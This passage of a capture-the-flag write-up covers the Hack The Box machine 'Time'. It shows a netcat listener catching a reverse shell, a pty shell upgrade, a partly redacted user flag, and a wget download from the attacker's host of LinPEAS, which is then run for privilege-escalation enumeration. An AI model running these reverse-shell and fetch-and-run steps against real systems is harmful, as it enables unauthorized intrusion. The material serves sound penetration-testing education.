 On submitting, the script is loaded from the webserver, and then the reverse shell comes to `nc`:

```

oxdf@parrot$ sudo nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.214] 58288
bash: cannot set terminal process group (863): Inappropriate ioctl for device
bash: no job control in this shell
pericles@time:/var/www/html$ id
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)

```

I’ll upgrade my shell with the normal trick:

```

pericles@time:/var/www/html$ python3 -c 'import pty;pty.spawn("bash")'
python3 -c 'import pty;pty.spawn("bash")'
pericles@time:/var/www/html$ ^Z
[1]+  Stopped                 sudo nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg
sudo nc -lnvp 443
                 reset
reset: unknown terminal type unknown
Terminal type? screen
pericles@time:/var/www/html$ 

```

And grab `user.txt`:

```

pericles@time:/home/pericles$ cat user.txt
7e5b3337************************

```

## Shell as root

### Enumeration

After my normal checks didn’t surface much, I started an HTTP server in my local [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) directory, uploaded it to Time, and ran it:

```

pericles@time:/dev/shm$ wget 10.10.14.8/linpeas.sh
--2021-02-09 22:02:59--  http://10.10.14.8/linpeas.sh
Connecting to 10.10.14.8:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 320037 (313K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 312.54K  --.-KB/s    in 0.07s   

2021-02-09 22:03:00 (4.12 MB/s) - ‘linpeas.sh’ saved [320037/320037]

pericles@time:/dev/shm$ chmod +x linpeas.sh 
pericles@time:/dev/shm$ ./linpeas.sh
...[snip]...

```
